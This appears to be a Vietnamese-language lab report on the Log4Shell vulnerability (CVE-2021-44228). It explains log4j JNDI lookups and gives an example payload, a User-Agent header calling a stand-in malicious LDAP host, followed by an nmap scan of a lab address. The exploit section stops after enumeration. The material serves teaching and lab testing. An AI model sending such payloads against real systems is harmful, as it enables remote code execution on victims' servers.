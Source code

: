 # REPORT log4j (CVE-2021-44228)
- Mức độ nghiêm trọng: đạt 10/10 *(trong hệ thống đánh giá CVSS)*
- Khai thác lỗ hổng không yêu cầu xác thực, cho phép thực thi mã từ xa (RCE) trên bất kỳ ứng dụng nào sử dụng tiện ích **log4j**
## Table of Content
1. [Log4jShell](#Log4jShell)
2. [LDAP và JNDI là gì?](#LDAP-và-JNDI-là-gì?)
3. [LDAP và JNDI](#LDAP-và-JNDI)
4. [Log4j JNDI lookup](#Log4j-JNDI-Lookup)
6. [Kịch bản khai thác Log4j](Kịch-bản-khai-thác-Log4j)
7. [Exploit]
8. [Biện pháp phòng ngừa](#Biện-pháp-phòng-ngừa)
8. Exploiting Log4j (CVE-2021-44228)
9. Mitigation

### Log4jShell
Tính năng của JNDI trong Apache Log4j2 phiên bản 2.0-beta9 đến 2.12.1 và 2.13.0 đến 2.15.0 được sử dụng cho việc cấu hình (configuration), thông báo nhật ký (log messages) *(bao gồm cả các tham số liên quan)* không chống lại các LDAP và JNDI endpoint liên quan khác mà attacker đang có quyền kiểm soát. Vì thế nên, một khi attacker có thể kiểm soát các log messages hoặc các tham số của log messages thì có thể thực thi được mã code tùy ý được load từ LDAP server khi mà message lookup substitution được kích hoạt. 
- Loại lỗ hổng: Remote Code Execution
- Mức độ: Critical
- Base CVSS Score: 10.0
- Phiên bản bị ảnh hưởng: All versions from 2.0-beta9 to 2.14.1
#### Log4j là gì?
Apache Log4j hay thường gọi là Log4j *(một thành phần của Apache Logging Services)* là một trình ghi log *(thư viện/framework)* được viết bằng ngôn ngữ Java. 

Framework Apache Log4j đang được sử dụng bởi hơn 5 TRIỆU ứng dụng mã nguồn mở trên toàn cầu, con số này còn có thể lớn hơn gấp nhiều lần đối với các ứng dụng không công bố mã nguồn. Đây là phần mềm mã nguồn mở được duy trì bởi một nhóm lập trình viên tình nguyện của dự án phi lợi nhuận từ Apache Software Foundation.
### LDAP và JNDI là gì?
**LDAP (Lightweight Directory Access Protocol)** là một giao thức mở và đa nền tảng được sử dụng để xác thực dịch vụ thư mục (directory service authentication). Nó cung cấp ngôn ngữ giao tiếp mà ứng dụng sử dụng để giao tiếp với các dịch vụ thư mục khác. Các dịch vụ thư mục lưu trữ nhiều thông tin quan trọng như user account details, passwords, computer accounts,... được chia sẻ với các thiết bị khác trên mạng.

**JNDI (Java Naming and Directory Interface)** là một giao diện lập trình ứng dụng (API) cung cấp chức năng đặt tên (naming) và thư mục (directoty) cho các ứng dụng được viết bằng Ngôn ngữ lập trình Java.

![ldap&jndi1](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/1.png)

### LDAP và JNDI
JNDI cung cấp một API tiêu chuẩn để tương tác với các dịch vụ tên và thư mục *(name/directory services)* bằng cách sử dụng giao diện cung cấp dịch vụ (service provider interface-SPI). JNDI cung cấp cho các ứng dụng và đối tượng Java với giao diện mạnh mẽ và minh bạch để truy cập các dịch vụ thư mục như LDAP. Bảng dưới đây cho thấy các hoạt động tương đương LDAP và JNDI phổ biến.

![ldap&jndi](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/2.png)

### Log4j JNDI Lookup
Lookups là một cơ chế thêm giá trị vào cấu hình log4j ở những vị trí tùy ý. Log4j có khả năng thực hiện nhiều lookups như **map, system properties và JNDI (Java Naming and Directory Interface) lookups**.

Log4j sử dụng API JNDI để nhận các dịch vụ naming và directory (naming and directory services) từ một số providers sẵn như : **LDAP, COS (Common Object Services), Java RMI registry (Remote Method Invocation), DNS (Domain Name Service),...** 

Nếu chức năng này được thực thi, thì chúng ta có thể đặt dòng mã này ở BẤT KỲ đâu đó trong chương trình: **${jndi:logging/context-name}**

### Kịch bản khai thác Log4j

#### Kịch bản Log4j bình thường

![normal Lo4j scenario](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/3.png)

1. HTTP request được gửi tới server
2. Log4j log lại HTTP request vừa được gửi

#### Kịch bản khai thác Log4j

![exploit Log4j](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/4.png)

Khi attacker kiểm soát được log messages thì có thể dẫn tới việc thực thi được mã tùy ý trên những server mục tiêu. Những mã này được load từ LDAP server mỗi khi message lookup substitution được bật. Từ đó, payload sẽ được tải và thực thi trên máy nạn nhân. 

Ví dụ về cách thức kết hợp JNDI và LDAP để khai thác: 
```console
${jndi:ldap://<host>:<port>/<payload>}
```
1. Attacker chèn JNDI lookup vào header field (vị trí có khả năng được log lại)
> User-Agent: ${jndi:ldap://anonymous.com:1389/xxx}
2. Chuỗi được chuyển tới log4j để log.
> ${jndi:ldap://ldap://anonymous.com:1389/xxx}
3. Log4j nội suy chuỗi và truy vấn máy chủ LDAP độc hại.
4. LDAP server phản hồi bằng thông tin directory có chứa Java Class độc hại.
5. Java deserialize (hoặc tải xuống) Java Class độc hại và thực thi nó.

### Exploit 
Trạng thái không sử dụng thiết bị IPS/IDS
![noIPSIDS](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/log4jlab.drawio.png)

#### Enumeration
Dùng **nmap** để scan port trên target
```console
nmap -sS -sV -sC -Pn -T4 -v -p- 192.168.2.44 -o re_nmap.txt
```
Kết quả
![nmap](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/nmap1.PNG)

Trong số các port đang mở, ta tập trung vào port 8389 đang chạy dịch vụ Apache Solr.
Apache Solr là một nền tảng tìm kiếm và phân tích dữ liệu mã nguồn mở, được xây dựng trên cơ sở của Apache Lucene. Nó cung cấp các tính năng mạnh mẽ cho việc lập chỉ mục và tìm kiếm dữ liệu từ nhiều nguồn khác nhau, từ văn bản đến hình ảnh và tài liệu phức tạp.

Solr sử dụng cổng 8983 làm cổng mặc định cho giao tiếp.
![defaultport](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/defaultport.PNG)

Log4Shell (CVE-2021-44228) liên quan đến lỗ hổng bảo mật trong thư viện Log4j, không phải trực tiếp đối với Apache Solr. Tuy nhiên, Apache Solr có thể sử dụng Log4j trong một số trường hợp, ví dụ như để ghi nhật ký (logging). Do đó, nếu Solr sử dụng Log4j và sử dụng các tính năng bị ảnh hưởng, thì nó có thể tiềm ẩn rủi ro bảo mật.

Mục tiêu cần tìm ra những entry point có tiềm năng (log lại dữ liệu sau khi người dùng thực hiện truy vấn tại những entry point này)

Thực hiện enumeration trên webserver tại địa chỉ http://192.168.2.44:8983



https://cehvietnam.com/2021/12/26/huong-dan-thiet-lap-mo-hinh-lab-de-kiem-tra-tham-nhap-log4/

https://github.com/Kyuu-Ji/htb-write-up/blob/master/logforge/write-up-logforge.md

https://0xdf.gitlab.io/2021/12/29/htb-logforge.html

https://bherunda.medium.com/using-java-deserialization-to-exploit-log4shell-logforge-htb-25b9486e90b6



### Biện pháp phòng ngừa

Áp dụng thiết bị IPS/IDS 
